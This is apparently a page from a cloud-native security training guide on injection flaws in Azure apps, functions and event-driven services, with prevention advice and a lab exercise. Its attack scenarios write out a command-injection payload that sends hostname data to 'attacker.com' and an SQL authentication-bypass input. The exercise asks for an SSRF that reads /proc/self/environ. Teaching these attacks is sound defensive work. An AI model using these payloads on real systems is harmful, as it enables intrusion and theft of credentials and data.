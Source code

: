 # CNAS-2: Injection Flaws (App Layer, Cloud Events, Cloud Services)  

## Overview

Injection flaws occur when untrusted input is improperly handled by an application or cloud-native component, allowing attackers to manipulate commands, queries, or system calls. These flaws can result in unauthorized access, data leakage, remote code execution, or compromise of cloud services.

In cloud-native environments, injection flaws may affect traditional web applications as well as serverless functions, event-driven architectures, and cloud service APIs.

## Description

Injection vulnerabilities are among the most critical and common security issues in application and cloud-native development. These occur when user-controlled input is inserted directly into a query, command, or interpreter without proper validation, encoding, or sanitization.

In the context of cloud-native applications, injection flaws can be found in:

- Applications hosted on Azure App Service or Containers that construct dynamic SQL, NoSQL, or OS commands.
- Azure Functions that process untrusted event payloads (e.g., from Event Grid, Service Bus).
- Cloud services that use metadata injection or insecure deserialization.
- Misconfigured serverless logic that allows attackers to influence execution flow via event content.

These issues may allow attackers to:

- Execute arbitrary OS commands (Command Injection)
- Bypass authentication via manipulated queries (SQL/NoSQL Injection)
- Exfiltrate sensitive data via SSRF or metadata service access
- Trigger unintended behavior in cloud automation (Event Injection)

## How To Prevent

* Validate and sanitize all input data before processing.
* Use parameterized queries for database access (e.g., SQL, Cosmos DB).
* Avoid executing system commands with user-controlled input; use strict allowlists or secure SDKs.
* Restrict function/event bindings to expected and safe data formats.
* Implement WAF (Web Application Firewall) and runtime protections to detect injection attempts.
* Apply least privilege to the execution context of cloud functions and containers.

## Example Attack Scenarios

### Scenario #1

An attacker sends a specially crafted HTTP request to an Azure Function with a `cmd` parameter. The function directly passes this parameter to `subprocess.getoutput()` without validation. The attacker injects `cmd=whoami; curl http://attacker.com?data=$(hostname)` to exfiltrate metadata.

### Scenario #2

An API hosted on Azure App Service uses dynamic SQL like:
```sql
SELECT * FROM users WHERE username = '$username'
```
An attacker inputs admin' --, bypassing authentication and logging in without knowing the password.

## Exercise 
### Objective

Perform SSRF attack and fetch the environment variables from /proc/self/environ file.  

**Go to :** https://appazgoat508580-function-app.azurewebsites.net/#/home

[> Solution](https://github.com/ine-labs/AzureGoat/blob/master/attack-manuals/module-1/02-Server%20Side%20Request%20Forgery%20Part%201.md)


